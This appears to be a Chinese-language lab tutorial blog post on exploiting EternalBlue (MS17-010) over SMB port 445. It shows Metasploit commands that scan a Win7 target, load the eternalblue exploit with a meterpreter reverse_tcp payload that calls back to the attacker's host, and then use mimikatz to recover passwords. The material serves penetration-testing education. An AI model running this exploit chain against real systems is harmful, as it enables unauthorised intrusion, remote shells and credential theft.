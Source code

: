 ```yaml
---
layout:     post
title:      永恒之蓝
subtitle:    eternalBlue
date:       2019-6-6
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - 安全
---
```



> MS017-010

# 永恒之蓝漏洞介绍



## 一、445端口介绍



445端口是一个毁誉参半的端口，有了它我们可以在局域网中轻松访问各种共享文件夹或共享打印机，但也正是因为有了它，黑客们才有了可乘之机，他们能通过该端口偷偷共享你的硬盘，甚至会在悄无声息中将你的硬盘格式化掉! 

2017年10月，由于病毒"坏兔子"来袭，国家互联网应急中心等安全机构建议用户及时关闭计算机以及网络设备上的445和139端口 

## 二、准备

* Kali系统  版本：2.0   IP：192.168.0.129

* Win7系统           IP：192.168.203.147   开放端口：445

* MSF框架版本：4.14.17版本以上

* 安装更新metasploit 


## 三、渗透过程

0x01 查看msf版本

在终端输入msfconsole

![1561792537458](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1561792537458.png)



0x02 安装更新metasploit

终端输入apt-get  install metasploit-framework

![img](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/156312322470.png)



0x03 漏洞模块路经查询

search ms17-010

![1561792623076](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1561792623076.png)



0x04 加载扫描模块

```shell
use auxiliary/scanner/smb/smb_ms17_010
show options
set rhosts 192.168.203.147       (靶机的IP)
exploit
```

![1561792903874](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1561792903874.png)

0x05 加载攻击模块并配置参数

```shell
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
show options
set rhost 192.168.203.147 (靶机的IP)
set lhost 192.168.203.139 (发起攻击的主机IP)
set lport 443       (监听的端口)
```

![1561795169356](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1561795169356.png)

0x06 发起攻击，成功会反弹shell

## 四、Meterpreter功能展现

使用mimikatz破解出密码。

![1561795342339](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1561795342339.png)